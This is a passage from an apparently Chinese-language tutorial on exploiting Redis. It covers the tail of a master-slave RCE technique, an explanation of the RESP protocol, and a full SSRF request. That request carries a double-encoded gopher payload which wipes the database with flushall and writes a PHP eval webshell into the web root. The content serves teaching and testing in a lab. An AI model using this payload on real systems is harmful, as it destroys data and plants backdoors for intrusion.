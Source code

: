 在本地用主从模式 RCE！

6）关闭主从模式

```
slaveof NO ONE
```



## 五、Redis联动SSRF漏洞



### 1、RESP协议

RESP协议是Redis服务器通信的标准方式，服务器和客户端之间的通信建立在RESP协议之上，RESP协议实际上是一个支持简单字符串，错误，整数，批量字符串和数组五种数据类型的序列化协议。

RESP在Redis中用作请求 - 响应协议的方式如下：

1. 客户端将命令作为`Bulk Strings`的RESP数组发送到Redis服务器。
2. 服务器根据命令实现回复一种RESP类型。

在RESP中，某些数据的类型取决于第一个字节：

对于`Simple Strings`，回复的第一个字节是`+`

对于`error`，回复的第一个字节是`-`

对于`Integer`，回复的第一个字节是`:`

对于`Bulk Strings`，回复的第一个字节是`$`

对于`array`，回复的第一个字节是`*`

此外，`RESP`能够使用稍后指定的`Bulk Strings`或`Array`的特殊变体来表示`Null`值。 在RESP中，协议的不同部分始终以`"\r\n"(CRLF)`结束。

```
*3 代表RESP数组长度为3
$4 代表字符长度为4
%0d%0a (\r\n) 代表换行符、结束符
+OK 代表服务端执行成功后返回的字符串
```

`ssrf` 要二次编码一下！

![image-20210923185303140](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923185303.png)



![image-20210923185447201](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923185447.png)

```http
GET /ssrf.php?url=gopher://192.168.59.129:6380/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252425%250D%250A%250A%250A%253C%253F%253Deval%2528%2524_POST%255B1%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A HTTP/1.1
Host: 192.168.59.128
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
